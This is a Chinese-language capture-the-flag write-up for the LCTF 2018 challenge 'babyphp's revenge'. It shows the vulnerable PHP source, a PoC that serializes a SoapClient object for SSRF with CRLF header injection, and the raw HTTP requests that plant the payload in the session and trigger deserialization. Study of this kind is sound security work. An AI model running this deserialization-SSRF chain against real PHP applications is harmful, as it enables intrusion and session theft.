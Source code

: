 # babyphp's revenge
题目直接给出源码

```php
//index.php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET[f],$_POST);
session_start();
if(isset($_GET[name])){
    $_SESSION[name] = $_GET[name];
}
var_dump($_SESSION);
$a = array(reset($_SESSION),'welcome_to_the_lctf2018');
call_user_func($b,$a);
?>

//flag.php
session_start();
echo 'only localhost can get flag!';
$flag = 'LCTF{*************************}';
if($_SERVER["REMOTE_ADDR"]==="127.0.0.1") { 
    $_SESSION['flag'] = $flag;
} 
```

## Session 反序列化漏洞
该题跟 XCTF-Final-2018-bestphp 相似，其实也是同一个出题人。

看到 flag.php 猜测 SSRF，自然想到了 n1ctf-2018-hard_php，利用 `SoapClient` 进行 SSRF。而要利用该类则需要反序列化漏洞才行，这里涉及到 `session_start` 的 `options` 参数中的另一个 session 配置项 `serialize_handler`，该参数控制了 session的解析引擎，所以可以借用由解析引擎的不同导致的 session 反序列化，而此题刚好存在变量覆盖漏洞

## SSRF

因为利用 `SoapClient` 进行 SSRF 需要调用 `__call`方法，这里其实可以利用 `call_user_func` 执行对象中的方法(即 `welcome_to_the_lctf2018`)，从而触发 `__call`。

![](img/call_user_func.png)

pupiles 师傅的 PoC：
```php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBB\r\n" .
                                             "Cookie:PHPSESSID=your_sessid",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b);
echo urlencode($se);
```

写入 session
```HTTP
POST /?f=session_start&name=上面生成的代码 HTTP/1.1
Host: kali:8001
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

serialize_handler=php_serialize
```

访问触发发序列化及 SSRF
```HTTP
POST /?f=extract&name=Soapclient HTTP/1.1
Host: 172.81.210.82
Connection: close
Cookie: PHPSESSID=your_sessid
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

b=call_user_func
```

## References
[谈谈LCTF2018](http://pupiles.com/lctf2018.html)
[session_start()&bestphp](https://www.anquanke.com/post/id/164569)